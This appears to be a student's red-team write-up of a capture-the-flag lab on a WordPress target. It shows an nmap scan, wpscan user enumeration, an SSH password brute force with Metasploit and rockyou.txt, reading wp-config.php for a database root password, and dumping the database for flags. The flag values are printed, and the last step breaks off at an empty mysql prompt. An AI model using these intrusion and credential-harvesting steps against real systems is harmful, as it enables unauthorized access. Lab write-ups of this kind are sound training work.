

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```


This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

`flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method

First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
```
$ msfconsole
```
```
> search ssh_login
```
```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
```
$ grep -rnw / -e “flag1” 2> /dev/null
```

`flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
```
$ find / -iname “flag2*” 2> /dev/null
```
`cat /var/www/flag2.txt`


  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ cat /var/www/html/wordpress/wp-config.php`

`$ mysqldump wordpress -u root -pR@v3nSecurity > dump`
`$ grep “flag3” dump`


Note: flag4 is located here as well

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ mysql wordpress --user=root -pR@v3nSecurity`
`>  `


